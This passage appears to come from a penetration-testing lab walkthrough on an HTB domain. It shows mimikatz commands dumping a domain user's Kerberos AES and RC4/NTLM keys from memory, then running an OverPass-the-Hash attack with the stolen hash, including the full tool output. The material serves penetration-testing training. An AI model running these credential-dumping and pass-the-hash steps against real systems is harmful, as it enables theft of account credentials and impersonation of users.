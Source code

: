 mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::ekeys
&#x3C;SNIP>

Authentication Id : 0 ; 444066 (00000000:0006c6a2)
Session           : Interactive from 1
User Name         : plaintext
Domain            : HTB
Logon Server      : DC01
Logon Time        : 7/12/2022 9:42:15 AM
SID               : S-1-5-21-228825152-3134732153-3833540767-1107

         * Username : plaintext
         * Domain   : inlanefreight.htb
         * Password : (null)
         * Key List :
           aes256_hmac       b21c99fc068e3ab2ca789bccbef67de43791fd911c6e15ead25641a8fda3fe60
           rc4_hmac_nt       3f74aa8f08f712f09cd5177b5c1ce50f
           rc4_hmac_old      3f74aa8f08f712f09cd5177b5c1ce50f
           rc4_md4           3f74aa8f08f712f09cd5177b5c1ce50f
           rc4_hmac_nt_exp   3f74aa8f08f712f09cd5177b5c1ce50f
           rc4_hmac_old_exp  3f74aa8f08f712f09cd5177b5c1ce50f
&#x3C;SNIP>
</code></pre>

Now that we have access to the `AES256_HMAC` and `RC4_HMAC` keys, we can perform the OverPass the Hash or Pass the Key attack using `Mimikatz` and `Rubeus`.

{% code fullWidth="true" %}
```powershell
c:\tools> mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug  6 2020 14:53:43
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::pth /domain:inlanefreight.htb /user:plaintext /ntlm:3f74aa8f08f712f09cd5177b5c1ce50f

user    : plaintext
domain  : inlanefreight.htb
program : cmd.exe
impers. : no
NTLM    : 3f74aa8f08f712f09cd5177b5c1ce50f
  |  PID  1128
  |  TID  3268
  |  LSA Process is now R/W
  |  LUID 0 ; 3414364 (00000000:0034195c)
  \_ msv1_0   - data copy @ 000001C7DBC0B630 : OK !
  \_ kerberos - data copy @ 000001C7E20EE578
   \_ aes256_hmac       -> null
   \_ aes128_hmac       -> null
   \_ rc4_hmac_nt       OK
   \_ rc4_hmac_old      OK
   \_ rc4_md4           OK
   \_ rc4_hmac_nt_exp   OK
   \_ rc4_hmac_old_exp  OK
   \_ *Password replace @ 000001C7E2136BC8 (32) -> null
```